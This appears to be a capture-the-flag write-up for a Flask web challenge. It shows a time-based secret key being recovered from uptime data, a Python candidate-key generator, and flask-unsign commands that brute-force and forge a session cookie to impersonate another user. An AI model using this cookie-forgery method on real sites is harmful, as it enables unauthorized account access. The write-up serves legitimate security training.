




## Title

Thomas DEVerson

## Description

Author: @Jstith

All things considered, I'm impressed this website is still up and running 200 years later. 

## Solution

The tech running is python: Werkzeug/3.0.3 Python/3.8.10

THe web app has three functionalities:
- messages: which gives the message - `Hey there Federalist... keep out of our buisness!`
- status: which seems like the output of a command
- main page: that has a login form with only the username being requested:

In the website there is a hidden link: 



The backup endpoint reveals the valid users and the app secret:



Trying the users we get the following error message in the cookie.

We get the following:



However, if we can spoof the JWt token we might get a valid session.
But there is a problem, the secret_key uses the time when the app starts.

```py
c = datetime.now()
f = c.strftime( "%Y%m%d%H%M" )
app.secret_key = f 'THE_REYNOLDS_PAMPHLET-{f}'
```
The developers of this challenge give us the boot time in the endpoint: `GET /status`



We can just make a script to get multiple times(in this case 1000 minutes before and 1000 minutes after) of /status endpoint information and try to generate a valid secret_key that can sign the JWT tokens.

Here is the script:

```py
import requests, subprocess, re
from datetime import datetime, timedelta

BASE = 'http://challenge.nahamcon.com:32692/'

# calc uptime
r = requests.get(BASE + "status").text
#print(r)
match = re.search(r"(\d+)\s+days?\s+(\d+)\s+hours?\s+(\d+)\s+minutes?", r)
days = int(match.group(1))
hours = int(match.group(2))
minutes = int(match.group(3))
uptime = datetime.now() - timedelta(days=days, hours=hours, minutes=minutes)
#print(uptime)

for d in range(-1000,1000):
    cand = uptime + timedelta(minutes=d)
    print('THE_REYNOLDS_PAMPHLET-' + cand.strftime("%Y%m%d%H%M"))

```

We can then: `python3 times.py > times.txt`

Use flask-unsign to brute force: `flask-unsign -c ".eyJuYW1lIjoiZ3Vlc3QifQ.ZlNfUg.bWY3m_QeXcDUX-l8UVOUXnkXQgM" --unsign --wordlist times.txt --no-literal-eval`-

After some time we get a valid secret token then we can just change the default cookie:
`flask-unsign -d -c "eyJuYW1lIjoiZ3Vlc3QifQ.ZlEpnQ.33Au_c9XeallX2HjDX_rJ7yOOjc"` -> `{'name': 'guest'}`
`flask-unsign --sign --secret THE_REYNOLDS_PAMPHLET-179708250845 --cookie "{'name': 'Jefferson'}"` -> `eyJuYW1lIjoiYWRtaW4ifQ.ZlEq1A.MfNd_XpYhjvue5aVueotFe74vm8`
